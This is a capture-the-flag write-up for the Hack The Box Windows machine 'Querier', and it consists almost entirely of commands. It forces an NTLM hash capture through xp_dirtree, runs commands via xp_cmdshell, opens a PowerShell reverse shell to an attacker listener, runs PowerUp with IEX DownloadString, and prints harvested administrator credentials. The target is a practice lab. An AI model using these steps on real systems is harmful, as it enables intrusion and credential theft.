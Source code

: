 ```yaml
---
title: Querier - Hack The Box
author: "0xPThree"
description: "N/A"
date: 2019-06-01
image: images/querier_logo.png
categories: [hackthebox, windows, medium, mssql, powerup, smb]
format: html
editor: visual
jupyter: python3
toc: true
---
```



# USER

**LISTENER:**
```bash
python smbserver.py -smb2support -ip 10.10.14.3 reporting /tmp 
```

**RUN:**
```bash
python mssqlclient.py -windows-auth querier/reporting:PcwTWTHRwryjc\$c6@10.10.10.125
SQL> EXEC master.sys.xp_dirtree '\\10.10.14.3\tmp'
```

**Connect with credentials:**
```bash
python mssqlclient.py querier/mssql-svc:corporate568@10.10.10.125 -windows-auth

> xp_cmdshell type C:\Users\mssql-svc\Desktop\user.txt
```

--------



# ROOT


**Start `smbserver` and `netcat` listener:**
```bash
$ python smbserver.py -smb2support -ip 10.10.14.11 querier /tmp
$ nc -lnvp 4444
```

**Get reverse shell with `PowerShellTcp`:**
```bash
SQL > xp_cmdshell move \\10.10.14.11\querier\Invoke-PowerShellTcp.ps1 C:\Users\mssql-svc\Desktop\pENIS.ps1
SQL > xp_cmdshell "powershell -file c:\Users\mssql-svc\Desktop\pENIS.ps1 -Reverse -IPAddress 10.10.14.11 -Port 4444"

PS > IEX (New-Object Net.WebClient).DownloadString('\\10.10.14.11\querier\PowerUp.ps1'); Invoke-AllChecks
 [*] Checking for cached Group Policy Preferences .xml files....
 Usernames : {Administrator}
 Passwords : {MyUnclesAreMarioAndLuigi!!1!}
```

**Grab flag:**
```bash
$ python smbclient.py querier/Administrator:MyUnclesAreMarioAndLuigi\!\!1\!@10.10.10.125
$ use C$
$ cd Users/Administrator/Desktop
$ get root.txt
 ```